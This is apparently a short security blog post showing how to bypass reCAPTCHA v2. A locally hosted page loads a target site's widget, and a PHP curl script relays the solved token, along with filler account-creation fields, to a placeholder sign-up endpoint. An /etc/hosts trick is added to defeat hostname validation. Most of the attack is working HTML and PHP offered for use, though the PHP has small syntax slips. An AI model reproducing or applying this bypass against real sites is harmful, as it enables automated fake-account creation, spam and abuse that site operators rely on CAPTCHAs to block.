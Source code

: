 ```yaml
---
layout: post
title: Security Tools Benchmarking
---
```


A lot of times I hear people say that they use recaptchaV2 as a way to mitigate bot traffic. We have tried the same and the results have not been pretty, just as I anticipated. RecaptchaV2 is meant to stop scripts from performing actions against an application but there is no way that a macro-recording application that is interacting with a real browser can be stopped. 

What does this mean? Well, if you have an application that replays clicking on recorded coordinates from a real browser, there is no way recaptchaV2 can solve this. In fact, let me just show you.

== Bypassing recaptchaV2 ==
A quick bypass/automating recaptchaV2 solution is as easy as follows:

* Apache web server
* PHP script receiving the g-captcha-response
* Public sitekey for target URL

You can set up an Apache web server running on http://localhost that loads a form that loads the recaptchaV2 widget and submits the response to a PHP script. The PHP script can receive the g-recaptcha-response parameter and send that via curl to the target URL with the rest of parameters that are needed to complete the action. 

>>>Google by default allows you to load recaptchaV2 widgets from localhost as a 'feature' for testing. There is no way to disable this.

=== Example ===
Let's say that you want to bypass the recaptchaV2 for http://www.targetsite.com/create_account.action endpoint. This action takes a few parameters such as:
* username
* password
* gender
* city
* zip code
* address

What you can have is an Apache server serving an html file which loads the recaptchaV2 widget with:

<blockquote>
<html>
  <head>
    <title>reCAPTCHA demo: Simple page</title>
     <script src="https://www.google.com/recaptcha/api.js" async defer></script>
  </head>
  <body>
    <form action="'''script.php'''" method="POST">
      <div class="g-recaptcha" data-sitekey="'''TARGET_SITE_KEY'''"></div>
      <br/>
      <input type="submit" value="Submit">
    </form>
  </body>
</html>
</blockquote>

Then you can have a script.php file set to receive the response as:
{{{$response = $_POST['g-recaptcha-response']}}}

What it can also do is pass the rest of the parameters to the target URL as:

<blockquote>
	$url = "https://www.targetsite.com/create_account.action";
	$response = $_POST['g-recaptcha-response'];
	$fields = array(
		'g-recaptcha-response' : $response,
		'username' : 'blah',
		'password' : 'password123', #of course!
		'gender' : 'm',
		'city' : 'Chicago',
		'state' : 'IL',
		'address' : '123 Elm St'
	);
	$fields_string = "";
	foreach($fields as $key=>$value) { $fields_string .= $key.'='.$value.'&'; }
	rtrim($fields_string, '&');

	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $url);
	curl_setopt($ch, CURLOPT_POST, count($fields));
	curl_setopt($ch, CURLOPT_POSTFIELDS, $fields_string);
	$result = curl_exec($ch);
	curl_close($ch);
</blockquote>

Bingo! That will submit a valid response to the target site with the rest of the parameters. When the target site sends the response to Google for verification, it'll receive a success of true and a hostname of 'localhost' because that's where the challenge was generated. If the site decides to perform hostname validation, then this attack will not work.

But wait... There's more!

If the site decides to perform hostname validation, this is what you can do:
* Create an /etc/hosts entry for the hostname of the target URL (www.targetsite.com)
* Have the PHP file send the response to another node (another VM) that then sends the parameters via curl.
* Hostname validation bypassed.

=== References ====
[Google RecaptchaV2 Documentation](https://developers.google.com/recaptcha/intro)
	

